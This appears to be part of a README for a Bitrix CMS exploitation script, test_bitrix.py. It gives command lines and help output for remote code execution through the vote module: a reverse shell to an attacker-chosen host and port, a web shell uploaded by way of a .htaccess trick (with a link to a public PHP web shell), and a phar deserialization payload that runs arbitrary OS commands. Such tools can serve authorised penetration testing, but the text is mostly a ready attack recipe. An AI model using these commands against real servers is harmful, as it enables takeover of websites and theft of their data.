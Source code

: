 Webshell

```sh
python3 test_bitrix.py -t https://example.com rce_vote --web-shell true
```
Reverse shell
```sh
python3 test_bitrix.py -t https://example.com rce_vote --lhost 192.168.1.1 --lport 8001
```

Display help for mode
```sh
python3 test_bitrix.py rce_vote -h
```

```console
usage: python3 test_bitrix.py rce_vote [-h] [--id_agent ID_AGENT] [--lhost LHOST] [--lport LPORT] [--web-shell webshell] [--path path]

options:
  -h, --help            show this help message and exit
  --id_agent ID_AGENT   ID of vote module agent (2, 4 and 7 available)
  --lhost LHOST         IP address for reverse connection
  --lport LPORT         Port of the host that listens for reverse connection
  --web-shell webshell  Use web shell instead of console reverse shell
  --path path           Path where in the site to upload a random file (example: /upload/iblock/1d3/)

```


### Running RCE vote using .htaccess

Prepare webshell page for a payload. The payload must not be .php. The webshell may be taken from [here](https://raw.githubusercontent.com/artyuum/simple-php-web-shell/master/index.php) just save it as html
```sh
python3 test_bitrix.py -t https://example.com vote_htaccess -p shell.html
```
Display help for mode
```sh
python3 test_bitrix.py vote_htaccess -h
```

```console
usage: python3 test_bitrix.py vote_htaccess [-h] -p payload

options:
  -h, --help            show this help message and exit
  -p payload, --payload payload
                        Path to payload file
```

### Running RCE vote phar deserialization

Generate phar payload file with php script
```sh
php -d phar.readonly=0 gadgets.php rce1 system '<os command here>' payload.phar
```
Use it as payload here
```sh
python3 test_bitrix.py -t https://example.com vote_phar -p payload.phar
```
